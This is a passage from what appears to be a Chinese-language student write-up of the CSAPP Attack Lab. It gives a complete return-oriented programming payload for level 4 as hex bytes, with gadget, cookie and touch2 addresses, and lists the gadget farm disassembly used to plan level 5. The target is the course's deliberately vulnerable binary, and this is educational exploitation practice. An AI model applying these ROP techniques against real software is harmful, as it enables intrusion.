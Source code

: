 指令地址为别为： **40141b** 和 **402b19**，这两处地址都不在 **start_farm** 和 **mid_farm** 之间，不过应该可以执行，因为没有限定说只能使用 **start_farm** 和 **mid_farm** 之间的序列。编辑`solution4`文件，键入如下内容：
```
01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20
01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20
19 2b 40 00 00 00 00 00 /* 序列地址，可以换成 0x40141b */
fa 97 b9 59 00 00 00 00 /* cookie */
ec 17 40 00 00 00 00 00 /* touch2地址 */
```

执行结果：
![csapp_lab_15](/static/csapp_lab3_15.png)

## level5

To solve Phase 5, you can use gadgets in the region of the code in rtarget demarcated by functions
start_farm and end_farm. In addition to the gadgets used in Phase 4, this expanded farm includes
the encodings of different movl instructions, as shown in Figure 3C. The byte sequences in this part of the
farm also contain 2-byte instructions that serve as functional nops, i.e., they do not change any register or
memory values. These include instructions, shown in Figure 3D, such as andb %al,%al, that operate on
the low-order bytes of some of the registers but do not change their values.

Some Advice:  
- You’ll want to review the effect a movl instruction has on the upper 4 bytes of a register, as is
described on page 183 of the text.
- The official solution requires eight gadgets (not all of which are unique).

在farm中找出所有的gadget，有下面这些行：
```
4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax // mov rax,rdi; mov eax,edi
4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax // pop rax
4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi) // mov rax,rdi; mov eax,edi
4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax // pop rax
4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax // pop rsp; mov eax,edx
4019ef:	8d 87 8d d1 20 db    	lea    -0x24df2e73(%rdi),%eax // and bl,bl
4019fc:	c7 07 81 d1 84 c0    	movl   $0xc084d181,(%rdi) // test al
401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax // mov rsp, rax
401a0a:	c7 07 88 c2 08 c9    	movl   $0xc908c288,(%rdi) // orb cl
401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax // mov ecx,esi
401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax // mov ecx,esi; cmp al
401a2c:	c7 07 81 ce 08 db    	movl   $0xdb08ce81,(%rdi) //orb bl
401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax // mov edx,ecx; cmp cl
401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax // mov esp,eax
401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax // mov eax,edx; test al
401a4e:	b8 99 d1 08 d2       	mov    $0xd208d199,%eax // orb dl
401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax // mov edx,ecx; orb bl
401a75:	c7 07 81 c2 38 d2    	movl   $0xd238c281,(%rdi) // cmp dl
401a7c:	c7 07 09 ce 08 c9    	movl   $0xc908ce09,(%rdi) // orb cl
```